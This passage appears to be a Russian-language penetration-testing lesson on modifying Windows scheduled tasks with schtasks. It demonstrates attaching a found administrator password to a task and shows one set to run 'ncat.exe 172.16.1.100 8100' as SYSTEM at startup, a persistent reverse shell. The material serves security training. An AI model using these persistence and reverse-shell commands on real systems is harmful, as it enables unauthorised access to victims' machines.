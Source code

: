 Теперь давайте посмотрим, как будет выглядеть изменение задачи.

### Изменение свойств запланированной задачи

#### Изменить Синтаксис

| **Экшен** | **Параметр** | **Описание**                                            |
| --------- | ------------ | ------------------------------------------------------- |
| `Change`  |              | Позволяет изменять существующие запланированные задачи. |
|           | /tn          | Определяет задачу по изменению                          |
|           | /tr          | Изменяет программу или действие, выполняемое задачей.   |
|           | /ENABLE      | Измените состояние задачи на "Включено".                |
|           | /DISABLE     | Измените состояние задачи на Отключенное.               |

Хорошо, теперь предположим, что мы нашли `hash` пароля локального администратора и хотим использовать его для запуска нашей оболочки Ncat. Если что-то пойдёт не так, мы можем изменить задачу, добавив учётные данные для её использования.

  Работа с запланированными задачами

```cmd-session
C:\htb> schtasks /change /tn "My Secret Task" /ru administrator /rp "P@ssw0rd"

SUCCESS: The parameters of scheduled task "My Secret Task" have been changed.

```

Теперь, чтобы убедиться, что наши изменения вступили в силу, мы можем запросить конкретную задачу с помощью параметра `/tn` и посмотреть:

  Работа с запланированными задачами

```cmd-session
C:\htb> schtasks /query /tn "My Secret Task" /V /fo list 

Folder: \
HostName:                             DESKTOP-Victim
TaskName:                             \My Secret Task
Next Run Time:                        N/A
Status:                               Ready
Logon Mode:                           Interactive/Background
Last Run Time:                        11/30/1999 12:00:00 AM
Last Result:                          267011
Author:                               DESKTOP-victim\htb-admin
Task To Run:                          C:\Users\Victim\AppData\Local\ncat.exe 172.16.1.100 8100
Start In:                             N/A
Comment:                              N/A
Scheduled Task State:                 Enabled
Idle Time:                            Disabled
Power Management:                     Stop On Battery Mode, No Start On Batteries
Run As User:                          SYSTEM
Delete Task If Not Rescheduled:       Disabled
Stop Task If Runs X Hours and X Mins: 72:00:00
Schedule:                             Scheduling data is not available in this format.
Schedule Type:                        At system start up

<SNIP>  
```
